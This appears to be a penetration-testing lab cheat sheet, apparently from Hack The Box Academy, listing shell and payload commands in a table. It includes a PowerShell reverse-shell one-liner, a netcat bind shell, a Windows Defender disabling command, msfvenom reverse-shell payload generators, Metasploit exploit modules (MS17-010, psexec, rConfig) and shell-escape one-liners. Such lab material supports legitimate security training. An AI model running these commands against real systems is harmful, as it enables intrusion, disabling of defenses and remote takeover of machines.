 | Commands | Description |
|----------|-------------|
| `xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!` | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol |
| `env` | Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use |
| `sudo nc -lvnp <port #>` | Starts a netcat listener on a specified port |
| `nc -nv <ip address of computer with listener started><port being listened on>` | Connects to a netcat listener at the specified IP address and port |
| `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f` | Uses netcat to bind a shell (/bin/bash) the specified IP address and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on` |
| `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` | Powershell one-liner used to connect back to a listener that has been started on an attack box` |
| `Set-MpPreference -DisableRealtimeMonitoring $true` | Powershell command using to disable real time monitoring in Windows Defender |
| `use exploit/windows/smb/psexec` | Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing smb & psexec |
| `shell` | Command used in a meterpreter shell session to drop into a system shell |
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf` | MSFvenom command used to generate a linux-based reverse shell stageless payload |
| `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe` | MSFvenom command used to generate a Windows-based reverse shell stageless payload |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho` | MSFvenom command used to generate a MacOS-based reverse shell payload |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp` | MSFvenom command used to generate a ASP web reverse shell payload |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp` | MSFvenom command used to generate a JSP web reverse shell payload |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war` | MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload |
| `use auxiliary/scanner/smb/smb_ms17_010` | Metasploit exploit module used to check if a host is vulnerable to ms17_010 |
| `use exploit/windows/smb/ms17_010_psexec` | Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to ms17_010 |
| `use exploit/linux/http/rconfig_vendors_auth_file_upload_rce` | Metasploit exploit module that can be used to optain a reverse shell on a vulnerable linux system hosting rConfig 3.9.6 |
| `python -c 'import pty; pty.spawn("/bin/sh")'` | Python command used to spawn an interactive shell on a linux-based system |
| `/bin/sh -i` | Spawns an interactive shell on a linux-based system |
| `perl —e 'exec "/bin/sh";'` | Uses perl to spawn an interactive shell on a linux-based system |
| `ruby: exec "/bin/sh"` | Uses ruby to spawn an interactive shell on a linux-based system |
| `Lua: os.execute('/bin/sh')` | Uses Lua to spawn an interactive shell on a linux-based system |
| `awk 'BEGIN {system("/bin/sh")}'` | Uses awk command to spawn an interactive shell on a linux-based system |
| `find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;` | Uses find command to spawn an interactive shell on a linux-based system |
| `find . -exec /bin/sh \; -quit` | An alternative way to use the find command to spawn an interactive shell on a linux-based system |
| `vim -c ':!/bin/sh'` | Uses the text-editor VIM to spawn an interactive shell. Can be used to escape "jail-shells" |
| `ls -la <path/to/fileorbinary>` | Used to list files & directories on a linux-based system and shows the permission for each file in the chosen directory. Can be used to look for binaries that we have permission to execute |
| `sudo -l` | Displays the commands that the currently logged on user can run as sudo |
| `/usr/share/webshells/laudanum` | Location of laudanum webshells on ParrotOS and Pwnbox |
| `/usr/share/nishang/Antak-WebShell` | Location of Antak-Webshell on Parrot OS and Pwnbox |
